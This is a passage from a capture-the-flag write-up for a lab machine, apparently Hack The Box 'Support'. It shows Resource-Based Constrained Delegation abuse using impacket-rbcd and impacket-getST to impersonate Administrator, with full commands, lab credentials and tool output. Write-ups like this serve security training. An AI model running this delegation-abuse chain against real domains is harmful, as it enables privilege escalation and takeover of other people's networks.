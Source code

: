 RBCD is often used legitimately in enterprise environments, but it can also be abused by attackers — especially if the attacker can create or control a computer account in the domain!

So, we are ready to go now:

```bash
┌──(uriel-sg㉿Uriel-SG)-[~/Scrivania/support]
└─$ impacket-rbcd -delegate-to 'dc$' -delegate-from 'urielsg-PC$' -dc-ip 10.10.11.174 -action write SUPPORT.htb/support:Ironside47pleasure40Watchful 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] urielsg-PC$ can now impersonate users on dc$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     urielsg-PC$   (S-1-5-21-1677581083-3380853377-188903654-5601)
```

Let’s break it down:

![image](https://github.com/user-attachments/assets/acf848cf-6a33-4e6e-851e-0fb342a3b186)

## Service Ticket

We have created a new workstation, configured RBCD (Resource-Based Constrained Delegation), and now all that remains is to request a Service Ticket (ST) and officially impersonate the Administrator to obtain a shell and capture our wonderful flag.

So, let’s request a service ticket (ST) using, again, the amazing `impacket`:

```bash
┌──(uriel-sg㉿Uriel-SG)-[~/Scrivania/support]
└─$ impacket-getST -spn cifs/dc.support.htb -impersonate Administrator -dc-ip 10.10.11.174 SUPPORT.htb/urielsg-PC:Urielsg!
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
/usr/share/doc/python3-impacket/examples/getST.py:380: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/usr/share/doc/python3-impacket/examples/getST.py:477: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2self
/usr/share/doc/python3-impacket/examples/getST.py:607: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/usr/share/doc/python3-impacket/examples/getST.py:659: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
```
